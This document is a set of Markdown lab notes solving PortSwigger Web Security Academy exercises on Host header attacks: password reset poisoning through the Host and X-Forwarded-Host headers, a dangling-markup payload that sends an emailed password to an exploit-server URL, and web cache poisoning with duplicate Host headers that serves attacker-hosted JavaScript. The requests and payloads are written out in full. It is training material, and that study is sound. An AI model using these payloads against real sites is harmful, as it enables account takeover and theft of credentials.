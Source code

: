 # Host header attacks

- https://portswigger.net/web-security/host-header
- https://portswigger.net/web-security/host-header/exploiting#how-to-test-for-vulnerabilities-using-the-http-host-header
- https://portswigger.net/web-security/host-header/exploiting

## Basic password reset poisoning

The application uses the `Host` header for forgot-password link with token generation, which is sent to the client.

By trying to reset our password, intercepting the request and changing the `Host` header we can notice, that the the link points to our provided domain.

To solve the lab issue password change request for `carlos`, intercept the request and change `Host` header to the Explot server domain. Then from logs read the password reset token and use it to reset password for `carlos`.

## Password reset poisoning via middleware

This time changing the `Host` header results in 421 response `Invalid host`, so the header must be used for internal redirections or be whitelisted.

Adding `X-Forwarded-Host` headed with our malicious value results in this value being used in generation of reset password link in the email. 

The application uses `Host` value for link generation, but it is also used for internal routing. Not disabled `X-Forwarded-Host` header allowed us to overwrite its value without obstructing the routing.

To solve the lab issue password change request for `carlos`, intercept the request and add `X-Forwarded-Host` header to Explot server domain. Then from logs read the password reset token and use it to reset password for `carlos`.

## Password reset poisoning via dangling markup

This time `Host` header overrites do not work, but apllying the arbitrary port `aaa` to the `Host` header reviels that it is not being used nor validated and is reflected in the received email.

```
Host: 0a5900ae0435584887f31bcc003e00b9.web-security-academy.net:aaa
```

Applying `'"<>{}[]a/\'\"\` as port in order to check for html encoding, which is not present and allows us to inject html.

Since we see in the email that the anti-virus is scanning the email, we can suspect that it will access all the link present in the body.

By issuing the password change request for `carlos` with `Host` header value provided below, we are able to execute successful dangling markup attack and create the the link containg the body email part containing the password. Then we can read the password from the Exploit server Access logs, since the anti virus accessed it automaticaly.

```
Host: 0a5900ae0435584887f31bcc003e00b9.web-security-academy.net:'>ClickMe</a><a href="https://exploit-0a13007704ab58b687331a8701a00079.exploit-server.net?q=
```

Similar attack could be made using `img` tag, that would log for us the password once the victim open the email.

## Web cache poisoning via ambiguous requests

By manipulating `Host` header we can notice that the routing is based upon it, because of the error. By providing two sligtyly diifferent `Host` headers we can conclude, that the first is being parsed by the cache and proxy for routing, and the second one is used by a web page, reflecting its value on it. This discrepancy can potentially be exploited.

```
GET /?cb=123456789123 HTTP/1.1
Host: 0afa00e503d0269681507b9f00b90061.h1-web-security-academy.net
Host: 0afa00e503d0269681507b9f00b90061.xd.net
```

`0afa00e503d0269681507b9f00b90061.xd.net` gets reflected in an absolute url to a script and we see that the response was cached upon performing the second request with only one proper host header.

Now at exploit server create a file at `/resources/js/tracking.js` with response headers and body shown below

```
HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
```

```
alert(document.cookie)
```

Then perform the belowe request to cache malicious response and solve the lab. (The solucion can be first tested by issuing two requests, one malicious and one normal, both with the same cache buster `cb` value)

```
GET / HTTP/1.1
Host: 0a13009d033215c58319473f006b0017.h1-web-security-academy.net
Host: exploit-0ad4004f037f154a831e46910160005d.exploit-server.net
```
